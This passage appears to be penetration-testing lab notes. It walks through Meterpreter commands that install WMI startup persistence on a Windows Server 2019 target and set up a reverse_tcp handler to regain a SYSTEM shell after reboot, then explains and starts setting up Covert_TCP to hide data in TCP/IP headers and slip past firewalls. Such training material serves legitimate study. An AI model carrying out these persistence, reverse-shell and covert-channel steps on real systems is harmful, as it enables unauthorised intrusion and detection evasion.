 Transfer both payloads to the Windows Server 2019 machine.
Execute Payload: there is a security warning, but meterpreter session has already opened!

	meterpreter > getuid
	meterpreter > upload /home/attacker/Wmi-Persistence-master C:\\Users\\Administrator\\Downloads
	meterpreter > load powershell		# PS extention
	meterpreter > powershell_shell 
	PS > Import-Module ./WMI-Persistence.ps1
	PS > Install-persistence -Trigger Startup -Payload "C:\Users\Administrator\Downloads\wmi.exe"
Note: It will take approximately 5 minutes for the script to run.


In a new root terminal:

	msfconsole
	> use exloit/multi/handler
	> set payload windows/meterpreter/reverse_tcp
	> set lhost 10.10.1.13
	> set lport 444
	> exploit
	
In previous terminal (meterpreter/PS), terminate channel:

	ctrl+c , Yes

Restart target machine. In the terminal, previous session will be closed.
Now, on the second terminal and we can see that the meterpreter session is opened (after approximately 5-10 minutes).

	meterpreter > getuid 	# We got system privileges and persistence on the target machine.



### Covert Channels using Covert_TCP

Networks use network access control permissions to permit or deny the traffic flowing through them. Tunneling is used to bypass the access control rules of firewalls, IDS, IPS, and web proxies to allow certain traffic. Covert channels can be created by inserting data into the unused fields of protocol headers. There are many unused or misused fields in TCP or IP over which data can be sent to bypass firewalls.

The Covert_TCP program manipulates the TCP/IP header of the data packets to send a file one byte at a time from any host to a destination. It can act like a server as well as a client and can be used to hide the data transmitted inside an IP header. This is useful when bypassing firewalls and sending data with legitimate-looking packets that contain no data for sniffers to analyze.



	> mkdir Send
	> cd Send
	> echo "secret Message" > message.txt
	
Copy covert_tcp.c in this folder:

	> cc -o covert_tcp covert_tcp.c
	
On target machine:

	> tcpdump -nvvx port 8888 -i lo
	> mkdir Receive
	> cd Receive
	